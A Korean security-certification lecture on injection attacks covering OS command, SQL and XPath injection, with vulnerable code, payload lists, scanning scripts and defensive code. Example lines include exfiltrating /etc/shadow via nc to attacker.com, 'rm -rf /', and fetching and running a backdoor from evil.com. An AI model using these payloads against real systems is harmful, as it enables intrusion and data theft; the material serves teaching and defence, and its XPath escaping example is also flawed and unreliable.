

# 17강: 인젝션 공격과 대응

## 개요
해킹보안전문가 1급 과정의 17강으로, 웹 애플리케이션에서 가장 위험한 인젝션 공격들을 다룹니다. SQL 인젝션, 운영체제 명령 실행, XPath 인젝션 등의 공격 원리와 탐지 방법, 효과적인 대응 방안을 실습을 통해 학습합니다.

## 주요 학습 내용

### 1. 운영체제 명령 실행 (OS Command Injection)

#### 취약점 개요
**웹 애플리케이션에서 system(), exec()와 같은 시스템 명령어를 실행시킬 수 있는 함수를 제공하며 사용자 입력 값에 대한 필터링이 제대로 이루어지지 않을 경우** 공격자가 운영체제 시스템 명령어를 호출하여 백도어 설치나 관리자 권한 탈취 등 시스템 보안에 심각한 영향을 미칠 수 있는 취약점입니다.

- **위험도**: 높음 (시스템 장악 가능)
- **공격 대상**: 사용자 입력을 시스템 명령어로 전달하는 기능

#### 공격 원리


#### 공격 방법 예시
```bash
# URL 파라미터를 통한 공격
GET /search.php?query=test; cat /etc/passwd
GET /ping.php?host=127.0.0.1; rm -rf /
GET /backup.php?file=data.txt | nc attacker.com 4444 < /etc/shadow

# 명령 연결자를 이용한 공격
; (세미콜론)     # 이전 명령과 상관없이 다음 명령 실행
& (앰퍼샌드)     # 백그라운드에서 명령 실행  
| (파이프)       # 이전 명령의 출력을 다음 명령의 입력으로
|| (OR 연산자)   # 이전 명령 실패 시 다음 명령 실행
&& (AND 연산자)  # 이전 명령 성공 시 다음 명령 실행
```

#### 취약한 코드 예시
```php
<?php
// 취약한 PHP 코드 예시
if (isset($_GET['ip'])) {
    $ip = $_GET['ip'];
    
    // 위험: 사용자 입력을 직접 시스템 명령에 사용
    $result = shell_exec("ping -c 4 " . $ip);
    echo "<pre>" . $result . "</pre>";
}

// 공격 예시 URL: ping.php?ip=127.0.0.1; cat /etc/passwd
?>
```

```python
# 취약한 Python 코드 예시
import subprocess
import os
from flask import Flask, request

app = Flask(__name__)

@app.route('/convert')
def convert_file():
    filename = request.args.get('file')
    
    # 위험: 사용자 입력을 직접 시스템 명령에 사용
    command = f"convert {filename} output.jpg"
    result = os.system(command)
    
    return f"Conversion completed: {result}"

# 공격 예시: /convert?file=test.png; wget http://evil.com/backdoor.sh -O /tmp/backdoor.sh && chmod +x /tmp/backdoor.sh && /tmp/backdoor.sh
```

#### 탐지 및 테스트 방법
```python
#!/usr/bin/env python3
# OS Command Injection 취약점 테스트 도구

import requests
import re
import time
from urllib.parse import quote
import subprocess

class OSCommandInjectionTester:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
        self.payloads = [
            # Unix/Linux 명령
            "; id",
            "& id",
            "| id", 
            "&& id",
            "|| id",
            "; whoami",
            "; uname -a",
            "; cat /etc/passwd",
            "; ls -la",
            
            # Windows 명령
            "& dir",
            "| dir",
            "&& dir", 
            "|| dir",
            "& type C:\\Windows\\System32\\drivers\\etc\\hosts",
            
            # 시간 기반 탐지
            "; sleep 5",
            "& ping -n 5 127.0.0.1",
            "| timeout 5",
            
            # DNS 기반 탐지 (외부 서버 필요)
            "; nslookup test.attacker.com",
            "& nslookup test.attacker.com"
        ]
        
        # 명령 실행 결과 패턴
        self.success_patterns = [
            r"uid=\d+.*gid=\d+",  # id 명령 결과
            r"root:.*:/bin/bash",  # /etc/passwd 내용
            r"Linux.*GNU/Linux",   # uname -a 결과
            r"Directory of",       # Windows dir 명령
            r"Volume in drive",    # Windows 볼륨 정보
            r"[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+",  # IP 주소 패턴
        ]
    
    def test_parameter(self, param_name, original_value):
        """특정 파라미터에서 OS Command Injection 테스트"""
        vulnerabilities = []
        
        for payload in self.payloads:
            test_value = f"{original_value}{payload}"
            
            try:
                # GET 요청 테스트
                params = {param_name: test_value}
                start_time = time.time()
                response = self.session.get(self.target_url, params=params, timeout=10)
                response_time = time.time() - start_time
                
                # 응답 내용에서 명령 실행 결과 확인
                if self.check_command_execution(response.text, payload):
                    vulnerabilities.append({
                        'type': 'OS Command Injection',
                        'parameter': param_name,
                        'payload': payload,
                        'method': 'GET',
                        'evidence': self.extract_evidence(response.text),
                        'severity': 'CRITICAL'
                    })
                
                # 시간 기반 탐지 (sleep, ping 등)
                if 'sleep' in payload or 'ping' in payload or 'timeout' in payload:
                    if response_time > 4:  # 4초 이상 지연
                        vulnerabilities.append({
                            'type': 'OS Command Injection (Time-based)',
                            'parameter': param_name,
                            'payload': payload,
                            'method': 'GET',
                            'response_time': response_time,
                            'severity': 'CRITICAL'
                        })
                
                # POST 요청 테스트
                data = {param_name: test_value}
                response = self.session.post(self.target_url, data=data, timeout=10)
                
                if self.check_command_execution(response.text, payload):
                    vulnerabilities.append({
                        'type': 'OS Command Injection',
                        'parameter': param_name,
                        'payload': payload,
                        'method': 'POST',
                        'evidence': self.extract_evidence(response.text),
                        'severity': 'CRITICAL'
                    })
                    
            except requests.RequestException as e:
                print(f"요청 오류: {e}")
                continue
                
        return vulnerabilities
    
    def check_command_execution(self, response_text, payload):
        """명령 실행 여부 확인"""
        for pattern in self.success_patterns:
            if re.search(pattern, response_text, re.IGNORECASE):
                return True
        
        # 특정 페이로드에 대한 추가 확인
        if 'id' in payload and ('uid=' in response_text or 'gid=' in response_text):
            return True
        if 'whoami' in payload and len(response_text.strip()) < 50:  # 사용자명은 보통 짧음
            return True
        if 'dir' in payload and ('Directory of' in response_text or 'Volume' in response_text):
            return True
            
        return False
    
    def extract_evidence(self, response_text):
        """증거 추출"""
        lines = response_text.split('\n')
        evidence_lines = []
        
        for line in lines:
            line = line.strip()
            if any(re.search(pattern, line, re.IGNORECASE) for pattern in self.success_patterns):
                evidence_lines.append(line)
                if len(evidence_lines) >= 3:  # 최대 3줄까지만
                    break
        
        return '\n'.join(evidence_lines)
    
    def generate_safe_payload_test(self):
        """안전한 페이로드로 테스트 (실제 시스템에 해를 끼치지 않음)"""
        safe_payloads = [
            "; echo 'COMMAND_INJECTION_TEST'",
            "& echo 'COMMAND_INJECTION_TEST'",
            "| echo 'COMMAND_INJECTION_TEST'",
            "; pwd",
            "& cd",
            "| date"
        ]
        return safe_payloads

# 사용 예시
if __name__ == "__main__":
    tester = OSCommandInjectionTester("http://testphp.vulnweb.com/artists.php")
    
    # 일반적인 파라미터 이름들을 테스트
    common_params = ['id', 'file', 'cmd', 'exec', 'system', 'ping', 'host', 'url']
    
    for param in common_params:
        print(f"테스트 중: {param} 파라미터")
        vulnerabilities = tester.test_parameter(param, "test")
        
        for vuln in vulnerabilities:
            print(f"[발견] {vuln['type']}")
            print(f"파라미터: {vuln['parameter']}")
            print(f"페이로드: {vuln['payload']}")
            if 'evidence' in vuln:
                print(f"증거: {vuln['evidence']}")
            print("-" * 50)
```

#### 대응 방안

##### 1. 입력값 검증 및 필터링
```python
import re
import shlex
from subprocess import run, PIPE, TimeoutExpired

def safe_command_execution(user_input, allowed_commands):
    """안전한 명령 실행 함수"""
    
    # 1. 화이트리스트 기반 명령 검증
    if not any(user_input.startswith(cmd) for cmd in allowed_commands):
        raise ValueError("허용되지 않는 명령입니다.")
    
    # 2. 위험한 문자 필터링
    dangerous_chars = [';', '&', '|', '$', '`', '(', ')', '<', '>', '\n', '\r']
    if any(char in user_input for char in dangerous_chars):
        raise ValueError("위험한 문자가 포함되어 있습니다.")
    
    # 3. 명령어 파싱 및 검증
    try:
        args = shlex.split(user_input)
    except ValueError:
        raise ValueError("올바르지 않은 명령 형식입니다.")
    
    # 4. 경로 및 확장자 검증
    if len(args) >= 2:  # 파일명이 있는 경우
        filename = args[1]
        if '..' in filename or filename.startswith('/'):
            raise ValueError("허용되지 않는 경로입니다.")
        
        allowed_extensions = ['.txt', '.log', '.jpg', '.png']
        if not any(filename.endswith(ext) for ext in allowed_extensions):
            raise ValueError("허용되지 않는 파일 확장자입니다.")
    
    # 5. 안전한 명령 실행
    try:
        result = run(args, capture_output=True, text=True, timeout=10)
        return result.stdout
    except TimeoutExpired:
        raise ValueError("명령 실행 시간이 초과되었습니다.")
    except Exception as e:
        raise ValueError(f"명령 실행 오류: {str(e)}")

# 안전한 사용 예시
def safe_ping(host):
    """안전한 ping 기능"""
    # IP 주소 형식 검증
    ip_pattern = r'^(?:(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.){3}(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$'
    domain_pattern = r'^(?:[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?\.)*[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?$'
    
    if not (re.match(ip_pattern, host) or re.match(domain_pattern, host)):
        raise ValueError("올바르지 않은 호스트 형식입니다.")
    
    # 안전한 ping 실행
    try:
        result = run(['ping', '-c', '4', host], capture_output=True, text=True, timeout=10)
        return result.stdout
    except Exception as e:
        raise ValueError(f"Ping 실행 오류: {str(e)}")
```

##### 2. 파라미터화된 명령 실행
```java
// Java에서 안전한 명령 실행
import java.io.*;
import java.util.*;
import java.util.concurrent.TimeUnit;

public class SafeCommandExecution {
    private static final List<String> ALLOWED_COMMANDS = Arrays.asList(
        "ping", "nslookup", "dig", "whois"
    );
    
    private static final Pattern IP_PATTERN = Pattern.compile(
        "^(?:(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\\.){3}(?:25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$"
    );
    
    public static String executeSafeCommand(String command, String target) 
            throws IOException, InterruptedException, SecurityException {
        
        // 1. 명령어 검증
        if (!ALLOWED_COMMANDS.contains(command)) {
            throw new SecurityException("허용되지 않는 명령어: " + command);
        }
        
        // 2. 대상 주소 검증
        if (!isValidTarget(target)) {
            throw new SecurityException("올바르지 않은 대상 주소: " + target);
        }
        
        // 3. ProcessBuilder를 사용한 안전한 실행
        ProcessBuilder pb = new ProcessBuilder();
        
        switch (command) {
            case "ping":
                pb.command("ping", "-c", "4", target);
                break;
            case "nslookup":
                pb.command("nslookup", target);
                break;
            case "dig":
                pb.command("dig", target);
                break;
            case "whois":
                pb.command("whois", target);
                break;
            default:
                throw new SecurityException("지원되지 않는 명령어");
        }
        
        // 4. 실행 및 결과 반환
        Process process = pb.start();
        boolean finished = process.waitFor(30, TimeUnit.SECONDS);
        
        if (!finished) {
            process.destroyForcibly();
            throw new RuntimeException("명령 실행 시간 초과");
        }
        
        return readProcessOutput(process.getInputStream());
    }
    
    private static boolean isValidTarget(String target) {
        // IP 주소 검증
        if (IP_PATTERN.matcher(target).matches()) {
            return true;
        }
        
        // 도메인명 검증
        return target.matches("^[a-zA-Z0-9][a-zA-Z0-9-]{0,61}[a-zA-Z0-9]\\.[a-zA-Z]{2,}$");
    }
    
    private static String readProcessOutput(InputStream inputStream) throws IOException {
        StringBuilder output = new StringBuilder();
        try (BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream))) {
            String line;
            while ((line = reader.readLine()) != null) {
                output.append(line).append("\n");
            }
        }
        return output.toString();
    }
}
```

### 2. SQL 인젝션 (SQL Injection)

#### 취약점 개요
**데이터베이스와 연동된 웹 애플리케이션에서 SQL 질의문에 대한 필터링이 제대로 이루어지지 않을 경우** 공격자가 입력이 가능한 폼(웹 브라우저 주소입력창 또는 로그인 폼 등)에 조작된 질의문을 삽입하여 웹 서버의 데이터베이스 정보를 열람 또는 조작을 할 수 있는 취약점입니다.

- **위험도**: 높음 (데이터베이스 정보 유출)
- **공격 대상**: 사용자 입력을 SQL 쿼리에 직접 사용하는 모든 기능

#### SQL 인젝션 공격 유형

##### 1. Classic SQL Injection (Union-based)
```sql
-- 기본 쿼리
SELECT * FROM users WHERE id = '1' AND password = 'password'

-- 공격 쿼리 (Union 기반)
SELECT * FROM users WHERE id = '1' UNION SELECT username, password FROM admin_users--' AND password = 'password'

-- 시스템 정보 획득
SELECT * FROM users WHERE id = '1' UNION SELECT @@version, database()--' AND password = 'password'
```

##### 2. Blind SQL Injection
```sql
-- Boolean 기반 블라인드 SQL 인젝션
SELECT * FROM users WHERE id = '1' AND (SELECT ASCII(SUBSTRING(username,1,1)) FROM users WHERE id=1)>97--'

-- Time 기반 블라인드 SQL 인젝션  
SELECT * FROM users WHERE id = '1' AND IF((SELECT COUNT(*) FROM users)>5, SLEEP(5), 0)--'
```

##### 3. Error-based SQL Injection
```sql
-- MySQL 오류 기반
SELECT * FROM users WHERE id = '1' AND extractvalue(1, concat(0x7e, (SELECT user()), 0x7e))--'

-- PostgreSQL 오류 기반
SELECT * FROM users WHERE id = '1' AND cast((SELECT version()) as int)--'
```

#### SQL 인젝션 테스트 페이로드
```python
# SQL 인젝션 테스트 페이로드 모음

class SQLInjectionPayloads:
    def __init__(self):
        self.basic_payloads = [
            "' OR '1'='1",
            "' OR 1=1--",
            "' OR 1=1#",
            "' OR '1'='1'--",
            "' OR '1'='1'#",
            "admin'--",
            "admin'#",
            "' UNION SELECT null--",
            "' UNION SELECT 1,2,3--"
        ]
        
        self.union_payloads = [
            "' UNION SELECT 1,2,3,4,5--",
            "' UNION SELECT user(),database(),version()--",
            "' UNION SELECT table_name FROM information_schema.tables--",
            "' UNION SELECT column_name FROM information_schema.columns--",
            "' UNION SELECT username,password FROM users--"
        ]
        
        self.blind_payloads = [
            "' AND (SELECT COUNT(*) FROM users)>0--",
            "' AND (SELECT LENGTH(database()))>5--",
            "' AND (SELECT ASCII(SUBSTRING(database(),1,1)))>97--",
            "' AND IF(1=1,SLEEP(5),0)--",
            "' OR (SELECT SLEEP(5))--"
        ]
        
        self.error_payloads = [
            "' AND extractvalue(1, concat(0x7e, (SELECT user()), 0x7e))--",
            "' AND updatexml(1, concat(0x7e, (SELECT version()), 0x7e), 1)--",
            "' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--"
        ]
    
    def get_all_payloads(self):
        """모든 페이로드 반환"""
        return (self.basic_payloads + self.union_payloads + 
                self.blind_payloads + self.error_payloads)
    
    def get_payloads_by_type(self, payload_type):
        """유형별 페이로드 반환"""
        payloads_map = {
            'basic': self.basic_payloads,
            'union': self.union_payloads,
            'blind': self.blind_payloads,
            'error': self.error_payloads
        }
        return payloads_map.get(payload_type, [])
```

#### 자동화된 SQL 인젝션 탐지 도구
```python
#!/usr/bin/env python3
# 고급 SQL 인젝션 탐지 도구

import requests
import re
import time
import json
from urllib.parse import urljoin, quote
import itertools

class AdvancedSQLInjectionTester:
    def __init__(self, target_url, delay_threshold=3):
        self.target_url = target_url
        self.session = requests.Session()
        self.delay_threshold = delay_threshold
        self.vulnerabilities = []
        
        # 데이터베이스별 특성
        self.db_signatures = {
            'mysql': {
                'version_query': 'SELECT @@version',
                'concat_func': 'CONCAT',
                'sleep_func': 'SLEEP',
                'error_functions': ['extractvalue', 'updatexml']
            },
            'postgresql': {
                'version_query': 'SELECT version()',
                'concat_func': '||',
                'sleep_func': 'pg_sleep',
                'error_functions': ['cast']
            },
            'mssql': {
                'version_query': 'SELECT @@version',
                'concat_func': '+',
                'sleep_func': 'WAITFOR DELAY',
                'error_functions': ['convert']
            },
            'oracle': {
                'version_query': 'SELECT banner FROM v$version',
                'concat_func': '||',
                'sleep_func': 'DBMS_LOCK.SLEEP',
                'error_functions': ['utl_inaddr.get_host_name']
            }
        }
        
        # 오류 패턴
        self.error_patterns = {
            'mysql': [
                r"mysql_fetch_array\(\)",
                r"You have an error in your SQL syntax",
                r"Warning.*mysql_.*",
                r"MySQL server version"
            ],
            'postgresql': [
                r"PostgreSQL.*ERROR",
                r"Warning.*pg_.*",
                r"valid PostgreSQL result",
                r"Npgsql\."
            ],
            'mssql': [
                r"Microsoft.*ODBC.*SQL Server",
                r"SQLSTATE",
                r"SqlException",
                r"System\.Data\.SqlClient\."
            ],
            'oracle': [
                r"ORA-[0-9]+",
                r"Oracle.*Error",
                r"Oracle.*Driver",
                r"OracleException"
            ]
        }
    
    def detect_database_type(self, response_text):
        """응답에서 데이터베이스 유형 탐지"""
        for db_type, patterns in self.error_patterns.items():
            for pattern in patterns:
                if re.search(pattern, response_text, re.IGNORECASE):
                    return db_type
        return 'unknown'
    
    def test_basic_sql_injection(self, param_name, original_value):
        """기본적인 SQL 인젝션 테스트"""
        basic_payloads = [
            "' OR '1'='1",
            "' OR 1=1--",
            "' OR 1=1#",
            "' UNION SELECT 1--",
            "' AND 1=2--",
            "' HAVING 1=1--"
        ]
        
        for payload in basic_payloads:
            test_value = f"{original_value}{payload}"
            
            try:
                params = {param_name: test_value}
                response = self.session.get(self.target_url, params=params)
                
                # 데이터베이스 오류 확인
                db_type = self.detect_database_type(response.text)
                if db_type != 'unknown':
                    self.vulnerabilities.append({
                        'type': 'SQL Injection (Error-based)',
                        'parameter': param_name,
                        'payload': payload,
                        'database_type': db_type,
                        'evidence': self.extract_error_evidence(response.text, db_type),
                        'severity': 'CRITICAL'
                    })
                
                # 응답 길이 변화 확인 (Boolean 기반)
                normal_response = self.session.get(self.target_url, params={param_name: original_value})
                if abs(len(response.text) - len(normal_response.text)) > 100:
                    self.vulnerabilities.append({
                        'type': 'SQL Injection (Boolean-based)',
                        'parameter': param_name,
                        'payload': payload,
                        'response_diff': len(response.text) - len(normal_response.text),
                        'severity': 'HIGH'
                    })
                    
            except Exception as e:
                continue
    
    def test_union_sql_injection(self, param_name, original_value):
        """Union 기반 SQL 인젝션 테스트"""
        # 컬럼 수 탐지
        column_count = self.detect_column_count(param_name, original_value)
        
        if column_count:
            union_payloads = [
                f"' UNION SELECT {','.join(['NULL'] * column_count)}--",
                f"' UNION SELECT {','.join([str(i) for i in range(1, column_count + 1)])}--",
                f"' UNION SELECT user(),database(),version(){',NULL' * (column_count - 3)}--" if column_count >= 3 else None
            ]
            
            for payload in filter(None, union_payloads):
                test_value = f"{original_value}{payload}"
                
                try:
                    params = {param_name: test_value}
                    response = self.session.get(self.target_url, params=params)
                    
                    # Union 성공 여부 확인
                    if self.check_union_success(response.text, column_count):
                        self.vulnerabilities.append({
                            'type': 'SQL Injection (Union-based)',
                            'parameter': param_name,
                            'payload': payload,
                            'column_count': column_count,
                            'evidence': self.extract_union_evidence(response.text),
                            'severity': 'CRITICAL'
                        })
                        
                except Exception as e:
                    continue
    
    def detect_column_count(self, param_name, original_value):
        """Union 기반 공격을 위한 컬럼 수 탐지"""
        for i in range(1, 20):  # 최대 20개 컬럼까지 시도
            payload = f"' UNION SELECT {','.join(['NULL'] * i)}--"
            test_value = f"{original_value}{payload}"
            
            try:
                params = {param_name: test_value}
                response = self.session.get(self.target_url, params=params)
                
                # 오류가 없으면 올바른 컬럼 수
                if not self.has_sql_error(response.text):
                    return i
                    
            except Exception:
                continue
                
        return None
    
    def test_time_based_sql_injection(self, param_name, original_value):
        """시간 기반 블라인드 SQL 인젝션 테스트"""
        time_payloads = [
            "' AND SLEEP(5)--",
            "' OR SLEEP(5)--",
            "'; WAITFOR DELAY '00:00:05'--",
            "' AND pg_sleep(5)--",
            "' AND 1=(SELECT SLEEP(5))--"
        ]
        
        for payload in time_payloads:
            test_value = f"{original_value}{payload}"
            
            try:
                params = {param_name: test_value}
                start_time = time.time()
                response = self.session.get(self.target_url, params=params, timeout=10)
                response_time = time.time() - start_time
                
                if response_time >= self.delay_threshold:
                    self.vulnerabilities.append({
                        'type': 'SQL Injection (Time-based Blind)',
                        'parameter': param_name,
                        'payload': payload,
                        'response_time': response_time,
                        'severity': 'HIGH'
                    })
                    
            except requests.Timeout:
                # 타임아웃도 취약점의 증거
                self.vulnerabilities.append({
                    'type': 'SQL Injection (Time-based Blind)',
                    'parameter': param_name,
                    'payload': payload,
                    'response_time': 'timeout',
                    'severity': 'HIGH'
                })
            except Exception:
                continue
    
    def has_sql_error(self, response_text):
        """SQL 오류 존재 여부 확인"""
        for db_type, patterns in self.error_patterns.items():
            for pattern in patterns:
                if re.search(pattern, response_text, re.IGNORECASE):
                    return True
        return False
    
    def check_union_success(self, response_text, column_count):
        """Union 공격 성공 여부 확인"""
        # 숫자 패턴 확인 (1,2,3,4... 가 응답에 나타나는지)
        number_pattern = r'\b' + r'\b.*\b'.join([str(i) for i in range(1, min(column_count + 1, 6))]) + r'\b'
        return bool(re.search(number_pattern, response_text))
    
    def extract_error_evidence(self, response_text, db_type):
        """오류 기반 증거 추출"""
        patterns = self.error_patterns.get(db_type, [])
        for pattern in patterns:
            match = re.search(pattern, response_text, re.IGNORECASE)
            if match:
                return match.group(0)
        return ""
    
    def extract_union_evidence(self, response_text):
        """Union 기반 증거 추출"""
        lines = response_text.split('\n')
        for line in lines:
            if re.search(r'\b[1-9]\b.*\b[1-9]\b', line):
                return line.strip()
        return ""
    
    def run_comprehensive_test(self, parameters):
        """종합적인 SQL 인젝션 테스트"""
        for param_name in parameters:
            print(f"테스트 중: {param_name} 파라미터")
            
            # 다양한 테스트 수행
            self.test_basic_sql_injection(param_name, "1")
            self.test_union_sql_injection(param_name, "1")
            self.test_time_based_sql_injection(param_name, "1")
        
        return self.vulnerabilities

# 사용 예시
if __name__ == "__main__":
    tester = AdvancedSQLInjectionTester("http://testphp.vulnweb.com/artists.php")
    
    # 일반적인 파라미터 이름들
    test_params = ['id', 'user_id', 'product_id', 'category_id', 'search', 'q']
    
    vulnerabilities = tester.run_comprehensive_test(test_params)
    
    print(f"\n=== SQL 인젝션 테스트 결과 ===")
    print(f"발견된 취약점: {len(vulnerabilities)}개")
    
    for vuln in vulnerabilities:
        print(f"\n[{vuln['severity']}] {vuln['type']}")
        print(f"파라미터: {vuln['parameter']}")
        print(f"페이로드: {vuln['payload']}")
        if 'evidence' in vuln and vuln['evidence']:
            print(f"증거: {vuln['evidence']}")
        if 'response_time' in vuln:
            print(f"응답 시간: {vuln['response_time']}초")
        print("-" * 50)
```

#### SQL 인젝션 방어 기법

##### 1. Prepared Statements (매개변수화된 쿼리)
```java
// Java - 안전한 방법
public User getUserById(int userId) {
    String sql = "SELECT * FROM users WHERE id = ?";
    try (PreparedStatement stmt = connection.prepareStatement(sql)) {
        stmt.setInt(1, userId);
        ResultSet rs = stmt.executeQuery();
        // 결과 처리
    }
}

// 위험한 방법 (사용 금지)
public User getUserById(String userId) {
    String sql = "SELECT * FROM users WHERE id = '" + userId + "'";
    Statement stmt = connection.createStatement();
    ResultSet rs = stmt.executeQuery(sql);
}
```

```python
# Python - 안전한 방법
import mysql.connector

def get_user_by_id(user_id):
    cursor = connection.cursor(prepared=True)
    query = "SELECT * FROM users WHERE id = ?"
    cursor.execute(query, (user_id,))
    return cursor.fetchone()

# 위험한 방법 (사용 금지)
def get_user_by_id_unsafe(user_id):
    cursor = connection.cursor()
    query = f"SELECT * FROM users WHERE id = '{user_id}'"
    cursor.execute(query)
    return cursor.fetchone()
```

##### 2. ORM 프레임워크 활용
```python
# Django ORM (안전함)
from django.contrib.auth.models import User

def get_users_by_status(status):
    return User.objects.filter(is_active=status)

# SQLAlchemy (안전함)
from sqlalchemy.orm import sessionmaker

def get_user_by_email(email):
    session = sessionmaker()
    return session.query(User).filter(User.email == email).first()
```

##### 3. 입력값 검증 및 이스케이프
```php
<?php
// PHP - 안전한 방법
function getUserById($userId) {
    // 입력값 검증
    if (!is_numeric($userId)) {
        throw new InvalidArgumentException("사용자 ID는 숫자여야 합니다.");
    }
    
    // Prepared Statement 사용
    $stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
    $stmt->execute([$userId]);
    return $stmt->fetch();
}

// 문자열 이스케이프 (차선책)
function searchUsers($keyword) {
    $keyword = mysqli_real_escape_string($connection, $keyword);
    $query = "SELECT * FROM users WHERE name LIKE '%$keyword%'";
    return mysqli_query($connection, $query);
}
?>
```

### 3. XPath 인젝션

#### 취약점 개요
**데이터베이스와 연동된 웹 애플리케이션에서 XPath 및 XQuery 질의문에 대한 필터링이 제대로 이루어지지 않을 경우** 공격자가 입력이 가능한 폼에 조작된 질의문을 삽입하여 인증 우회를 통해 XML 문서로부터 인가되지 않은 데이터를 열람할 수 있는 취약점입니다.

#### XPath 인젝션 공격 예시
```xml
<!-- 예시 XML 데이터 -->
<users>
    <user>
        <username>admin</username>
        <password>secret123</password>
        <role>administrator</role>
    </user>
    <user>
        <username>user1</username>
        <password>pass123</password>
        <role>user</role>
    </user>
</users>
```

```javascript
// 취약한 XPath 쿼리
function authenticateUser(username, password) {
    const xpath = `//user[username='${username}' and password='${password}']`;
    return xml.selectSingleNode(xpath);
}

// 공격 페이로드
// username: admin' or '1'='1
// password: anything
// 결과 XPath: //user[username='admin' or '1'='1' and password='anything']
```

#### XPath 인젝션 방어
```javascript
// 안전한 XPath 쿼리
function authenticateUserSafe(username, password) {
    // 입력값 검증
    if (!isValidUsername(username) || !isValidPassword(password)) {
        return null;
    }
    
    // XPath 문자 이스케이프
    const safeUsername = escapeXPath(username);
    const safePassword = escapeXPath(password);
    
    const xpath = `//user[username='${safeUsername}' and password='${safePassword}']`;
    return xml.selectSingleNode(xpath);
}

function escapeXPath(input) {
    return input
        .replace(/'/g, "&apos;")
        .replace(/"/g, "&quot;")
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;");
}

function isValidUsername(username) {
    return /^[a-zA-Z0-9_]{3,20}$/.test(username);
}
```

## 마무리

이번 17강에서는 **인젝션 공격**의 핵심 유형들을 다뤘습니다. **운영체제 명령 실행**, **SQL 인젝션**, **XPath 인젝션** 등의 공격 원리를 이해하고, 실무에서 바로 활용할 수 있는 탐지 도구와 방어 기법을 학습했습니다.

다음 강의에서는 **정보 노출 및 콘텐츠 보안**에 대해 학습하겠습니다.

---
*이 자료는 해킹보안전문가 1급 자격증 취득을 위한 학습 목적으로 작성되었습니다.*